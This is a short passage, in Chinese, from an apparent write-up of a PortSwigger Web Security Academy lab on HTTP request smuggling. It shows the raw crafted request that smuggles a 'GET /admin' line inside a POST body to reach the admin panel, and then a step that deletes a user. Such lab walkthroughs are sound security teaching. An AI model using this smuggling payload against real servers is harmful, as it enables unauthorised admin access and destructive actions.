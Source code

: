 [![](assets/1705301772-127e1371199bf8f9ab00bc7d44b7559e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182648-6c872928-b2c7-1.png)  
随后在 burpsuite 中将走私前缀的路径更改为指向/admin，再次按顺序发送请求观察第二个请求是否已成功访问管理面板

```bash
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

GET /admin HTTP/1.1
Foo: x
```

[![](assets/1705301772-f70cc9dfc6af76b45a7208a0728467df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182709-7964e144-b2c7-1.png)  
[![](assets/1705301772-c9ef5635fd682acb4e9582e1fb26e77d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182719-7f3e15c2-b2c7-1.png)  
随后调用接口删除用户
